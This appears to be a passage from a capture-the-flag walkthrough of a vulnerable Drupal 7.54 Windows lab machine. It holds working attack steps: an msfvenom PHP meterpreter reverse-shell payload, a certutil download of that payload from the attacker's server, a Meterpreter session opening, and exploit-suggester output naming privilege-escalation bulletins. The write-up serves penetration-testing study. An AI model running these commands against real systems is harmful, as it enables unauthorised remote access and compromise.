  TCP    [::]:81                [::]:0                 LISTENING       4
  TCP    [::]:135               [::]:0                 LISTENING       668
  TCP    [::]:445               [::]:0                 LISTENING       4
  TCP    [::]:47001             [::]:0                 LISTENING       4
  TCP    [::]:49152             [::]:0                 LISTENING       372
  TCP    [::]:49153             [::]:0                 LISTENING       752
  TCP    [::]:49154             [::]:0                 LISTENING       800
  TCP    [::]:49155             [::]:0                 LISTENING       480
  TCP    [::]:49156             [::]:0                 LISTENING       496
  UDP    0.0.0.0:123            *:*                                    852
  UDP    0.0.0.0:5355           *:*                                    936
  UDP    10.10.10.9:137         *:*                                    4
  UDP    10.10.10.9:138         *:*                                    4
  UDP    [::]:123               *:*                                    852
drupalgeddon2>> arp -a
Interface: 10.10.10.9 --- 0xb
  Internet Address      Physical Address      Type
  10.10.10.2            00-50-56-b9-79-00     dynamic   
  10.10.10.255          ff-ff-ff-ff-ff-ff     static    
  224.0.0.22            01-00-5e-00-00-16     static    
  224.0.0.252           01-00-5e-00-00-fc     static    
```


#### 2. Create a msfvenom payload
```
sudo msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.14.3  LPORT=4444 -f raw > shell.php
```
#### 3. Upload the msfvenom payload to the target

* Create a local ftp server to upload the msfvenom package.
```
% simplehttpserver . 
Listening 0.0.0.0:8000 web root dir 
```
* Upload the msfvenon package on the target system. You can see that the shell.php payload is now in the drupal directory.
```
drupalgeddon2>> certutil.exe -urlcache -f "http://10.10.14.3:8000/shell.php" shell.php
****  Online  ****
CertUtil: -URLCache command completed successfully.
drupalgeddon2>> dir
Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA

 Directory of C:\inetpub\drupal-7.54

22/02/2020  08:37 ??    <DIR>          .
22/02/2020  08:37 ??    <DIR>          ..
19/03/2017  12:42 ??               317 .editorconfig
19/03/2017  12:42 ??               174 .gitignore
19/03/2017  12:42 ??             5.969 .htaccess
19/03/2017  12:42 ??             6.604 authorize.php
19/03/2017  12:42 ??           110.781 CHANGELOG.txt
19/03/2017  12:42 ??             1.481 COPYRIGHT.txt
19/03/2017  12:42 ??               720 cron.php
19/03/2017  12:43 ??    <DIR>          includes
19/03/2017  12:42 ??               529 index.php
19/03/2017  12:42 ??             1.717 INSTALL.mysql.txt
19/03/2017  12:42 ??             1.874 INSTALL.pgsql.txt
19/03/2017  12:42 ??               703 install.php
19/03/2017  12:42 ??             1.298 INSTALL.sqlite.txt
19/03/2017  12:42 ??            17.995 INSTALL.txt
19/03/2017  12:42 ??            18.092 LICENSE.txt
19/03/2017  12:42 ??             8.710 MAINTAINERS.txt
19/03/2017  12:43 ??    <DIR>          misc
19/03/2017  12:43 ??    <DIR>          modules
19/03/2017  12:43 ??    <DIR>          profiles
19/03/2017  12:42 ??             5.382 README.txt
19/03/2017  12:42 ??             2.189 robots.txt
19/03/2017  12:43 ??    <DIR>          scripts
22/02/2020  08:37 ??            30.686 shell.php
19/03/2017  12:43 ??    <DIR>          sites
19/03/2017  12:43 ??    <DIR>          themes
19/03/2017  12:42 ??            19.986 update.php
19/03/2017  12:42 ??            10.123 UPGRADE.txt
19/03/2017  12:42 ??             2.200 web.config
19/03/2017  12:42 ??               417 xmlrpc.php
              22 File(s)        247.947 bytes
               9 Dir(s)  30.806.564.864 bytes free
drupalgeddon2>> 
```
* Start a local meterpreter console.
```
msf5 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------
Payload options (php/meterpreter_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.3       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.3:4444 
[*] Meterpreter session 1 opened (10.10.14.3:4444 -> 10.10.10.9:57465) at 2020-02-22 12:02:08 -0700
```
* Execute the msfvenom package by visiting the URL: http://10.10.10.9/shell.php , and wait for the Meterpreter session to start.
* Capture the user's flag. 
```
Listing: C:\Users\dimitris\Desktop
==================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2017-03-19 11:35:50 -0600  desktop.ini
100444/r--r--r--  32    fil   2017-03-19 12:06:00 -0600  user.txt


```
#### 4. Use Windows Exploit Suggester for privilige escalation
Github and instructions avaiable from here: [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester){:target="_blank"}.
```
Windows-Exploit-Suggester % sudo ./windows-exploit-suggester.py --database 2020-02-22-mssb.xls --systeminfo bastard_info.txt

[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (utf-8)
[*] querying database file for potential vulnerabilities
[*] comparing the 0 hotfix(es) against the 197 potential bulletins(s) with a database of 137 known exploits
[*] there are now 197 remaining vulns
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 64-bit'
[*] 
[M] MS13-009: Cumulative Security Update for Internet Explorer (2792100) - Critical
[M] MS13-005: Vulnerability in Windows Kernel-Mode Driver Could Allow Elevation of Privilege (2778930) - Important
[E] MS12-037: Cumulative Security Update for Internet Explorer (2699988) - Critical
[*]   http://www.exploit-db.com/exploits/35273/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5., PoC
[*]   http://www.exploit-db.com/exploits/34815/ -- Internet Explorer 8 - Fixed Col Span ID Full ASLR, DEP & EMET 5.0 Bypass (MS12-037), PoC
[*] 
[E] MS11-011: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (2393802) - Important
[M] MS10-073: Vulnerabilities in Windows Kernel-Mode Drivers Could Allow Elevation of Privilege (981957) - Important
[M] MS10-061: Vulnerability in Print Spooler Service Could Allow Remote Code Execution (2347290) - Critical
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
[E] MS10-047: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege (981852) - Important
[M] MS10-002: Cumulative Security Update for Internet Explorer (978207) - Critical
[M] MS09-072: Cumulative Security Update for Internet Explorer (976325) - Critical
[*] done


```
#### 5. Run meterpreter for priviliged user escalation
```

```
